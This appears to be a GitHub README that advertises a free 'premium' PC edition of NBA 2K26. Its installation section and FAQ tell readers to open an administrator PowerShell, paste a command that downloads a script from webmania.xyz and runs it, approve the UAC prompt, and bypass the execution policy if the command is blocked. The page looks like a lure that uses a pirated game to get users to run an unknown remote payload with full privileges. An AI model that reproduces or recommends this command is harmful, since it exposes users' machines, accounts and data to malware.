

<div align="center">


<br>


# NBA 2K26 Premium Edition
**Basketball sim · MyCareer · Online modes**
<br>
**Basketball sim · MyCareer · Online modes**
<br>
Premium · Complete · Pc Edition · Windows



**NBA 2K26 Premium — MyCareer, MyTeam, online modes and all premium content packs enabled.**

</div>

---

> Hit the court in 2K26 — premium edition with MyCareer progression and online features enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://webmania.xyz/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎮 **Full premium edition** — Complete game content for Windows.
🖥️ **PC optimized** — Enhanced settings for modern hardware.
📦 **Local install** — Play offline after setup completes.
✨ **Deluxe content** — Extra modes and assets included.
⚡ **Fast deployment** — One PowerShell command for setup.
🎯 **Ready to launch** — Installer delivered via release package.
🧰 **Complete build** — Pro configuration out of the box.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 110 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://webmania.xyz/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 110 gb free space.
</details>


TAGS
nba-2k26, nba-2k, 2k26, basketball-game, sports-game, nba-game, 2k-sports, basketball-simulation, myplayer, mycareer, nba-simulation, sports-simulation, 2k-basketball, nba-2k-series, basketball-sim
